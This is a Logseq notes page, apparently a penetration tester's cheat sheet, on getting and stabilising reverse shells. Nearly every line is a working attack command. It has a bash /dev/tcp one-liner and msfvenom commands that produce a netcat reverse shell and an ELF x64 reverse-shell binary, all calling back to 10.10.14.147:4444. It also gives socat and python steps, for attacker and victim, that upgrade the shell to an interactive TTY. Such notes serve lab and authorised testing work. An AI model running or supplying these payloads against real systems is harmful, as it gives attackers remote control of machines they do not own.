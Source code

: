 public:: true
tags:: reverse shell

- ### One-liner reverse shell
  For more reverse shell examples [check this out](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
	- #### Just `bash`
	  logseq.order-list-type:: number
	  ```bash
	  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
	  ```
	- #### Generate one-liner reverse shells with `msfvenom`
	  logseq.order-list-type:: number
		- List payloads
		  logseq.order-list-type:: number
		  ```bash
		  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
		  ```
		- Use `netcat` regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
		  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
		  [-] No arch selected, selecting arch: cmd from the payload
		  No encoder specified, outputting raw payload
		  Payload size: 90 bytes
		  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
		  ```
	- #### Create ELF x64 reverse shell
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
	  chmod +x rv
	  ```
	  `nc` needs to be available and reaceable from `$PATH`.
- #### Upgrade from a simple shell to a fully interactive tty
  Additional info can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
	- With `python`
	  
	  ```bash
	  python -c 'import pty; pty.spawn("/bin/bash")'
	  ```
	- With `socat`
		- On Kali (Attacker)
		  
		  ```bash
		  socat file:`tty`,raw,echo=0 tcp-listen:4444
		  ```
		- On the victim machine
		  
		  ```bash
		  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.147:4444
		  ```
	- With `pythom` + `netcat` + some magic
	  *This is the [Phineas Fisher method](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-3-upgrading-from-netcat-with-magic).*
		- Within the reverse shell
		  
		  ```bash
		  python -c 'import pty; pty.spawn("/bin/bash")'
		  Ctrl-Z
		  ```
		- From Kali
		  NB: This needs to be done within a `bash` session, `zsh` won't work.
		  ```bash
		  stty raw -echo
		  fg
		  ```
		- Again within the reverse shell
		  
		  ```bash
		  reset
		  export SHELL=bash
		  export TERM=xterm-256color
		  stty rows <num> columns <cols>
		  ```
